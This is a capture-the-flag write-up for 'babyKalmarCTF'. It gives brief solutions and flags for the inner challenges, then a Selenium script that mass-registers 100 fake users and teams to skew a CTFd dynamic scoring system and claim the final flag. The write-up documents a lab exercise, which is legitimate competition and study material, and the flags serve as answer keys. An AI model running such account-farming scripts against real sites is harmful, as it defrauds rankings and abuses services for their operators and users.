

# babyKalmarCTF

Solved by: @OS1R1S and @gr1d

Question: 
Ever played a CTF inside a CTF?

We were looking for a new scoring algorithm which would both reward top teams for solving super hard challenges, but also ensure that the easiest challenges wouldn't go to minimum straight away if more people played than we expected.

Thats when we came across this ingenious suggestion! [https://github.com/sigpwny/ctfd-dynamic-challenges-mod/issues/1](https://github.com/sigpwny/ctfd-dynamic-challenges-mod/issues/1)

We've implemented it this scoring idea(see here: [https://github.com/blatchley/ctfd-dynamic-challenges-mod](https://github.com/blatchley/ctfd-dynamic-challenges-mod) ) and spun up a small test ctf to test it out.

If you manage to win babykalmarCTF, we'll even give you a flag at /flag!

Spin up your own personal babykalmarCTF here: [https://lab1.kalmarc.tf/](https://lab1.kalmarc.tf/)


### Solution:
1. Within babyKalmarCTF there are several categories of challenges:
	- Baby's first RSA adventure (Crypto)
	- My First Flagchecker (Reverse)
	- THE OSINT CHALLENGE (osint)
	- Baffling, Ridiculous And Intriguing Letters, Laughter Ensues! (Misc)
	- Welcome Flag (welcome)
	- Simple  Math Challenge (Impossible)
	- Baby's Second RSA (Impossible)
	- A randcrack challenge (Impossible)
	- The Last Step (Impossible)
	
2. Welcome Flag's solution: 
	![[babykalmar1.png]]
	**Flag:** `babykalmar{welcome_to_babykalmar_CTF}`
	
3. My First Flagchecker's solution:
	 - ltrace will show the strcmp value 
	 ![[babykalmar2.png]]
	 - In disassembler, the string value will show in the .rodata section
	 ![[babykalmar3.png]]
	**Flag:** `babykalmar{string_compare_rev_ayoooooooo}`
	
4. THE OSINT CHALLENGE's solution:
	- Challenge Image given:
	  ![[babykalmar4.png]]
	- Using Google Images, which show is a Department of Computer Science, University in Aarhus, Denmark
	- The city which is located is `aarhus`
	- **Flag:** `babykalmar{aarhus}`
	
5. Baffling, Ridiculous And Intriguing Letters, Laughter Ensues's solution:
	- **Flag:** `BABYKALMAR{SUPERORIGINALMORSECODECHALLENGE}`
	
6. Baby's first RSA adventure's solution:
	- Flag: `babykalmar{wow_you_are_an_rsa_master!!!!!}`

After solving all the challenges, we have to trick the scoring system. Here is the script
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

# Set up Firefox WebDriver
options = webdriver.FirefoxOptions()
options.headless = False

driver = webdriver.Firefox(options=options)

register_url = "https://45d9cb6b475c2631a4b32ccd8e0bcf6a-59591.inst1.chal-kalmarc.tf/register"
team_url = "https://45d9cb6b475c2631a4b32ccd8e0bcf6a-59591.inst1.chal-kalmarc.tf/teams/new"
logout_url = "https://45d9cb6b475c2631a4b32ccd8e0bcf6a-59591.inst1.chal-kalmarc.tf/logout"

for i in range(100): 
    driver.get(register_url)
    
    username = f"FakeUser{i}"
    email = f"fakeuser{i}@example.com"
    password = "P@ssw0rd123"

    driver.find_element(By.ID, "name").send_keys(username)
    driver.find_element(By.ID, "email").send_keys(email)
    driver.find_element(By.ID, "password").send_keys(password)

    driver.find_element(By.ID, "_submit").click()

    time.sleep(2)

    driver.get(team_url)
    
    team_name = f"FakeTeam{i}"
    driver.find_element(By.ID, "name").send_keys(team_name)
    driver.find_element(By.ID, "password").send_keys("TeamP@ssw0rd")

    driver.find_element(By.ID, "_submit").click()

    print(f"Registered {username} & Created Team {team_name}")

    driver.get(logout_url)
    time.sleep(2) 

driver.quit()
```

Here is how it works:

Then we can get the flag at `/flag` 

**Flag:** `kalmar{w0w_y0u_b34t_k4lm4r_1n_4_c7f?!?}`

